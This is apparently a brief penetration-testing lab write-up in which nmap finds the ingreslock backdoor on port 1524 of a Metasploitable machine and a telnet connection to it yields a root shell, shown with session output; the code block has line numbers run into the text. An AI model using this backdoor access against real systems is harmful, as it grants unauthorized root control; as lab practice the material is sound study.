 While doing **nmap** we got one port that was 1524 and that port had the name **1524/tcp open ingreslock**
so i checked the name on the web and got to know that it is a backdoor that is already present and you can exploit it directly.
Reference:https://labex.io/tutorials/cybersecurity-attacking-the-ingreslock-backdoor-vulnerability-416124
so then i used telnet to get connection to that port no and the output is as follows:
```text
root@ubuntu:~# telnet 192.168.99.131 15242Trying 192.168.99.131...3Connected to 192.168.99.131.4Escape character is '^]'.5root@metasploitable:/# id6uid=0(root) gid=0(root) groups=0(root)
```
this is just an example which shows that it is directly connecting to  the port no and giving us the root shell.
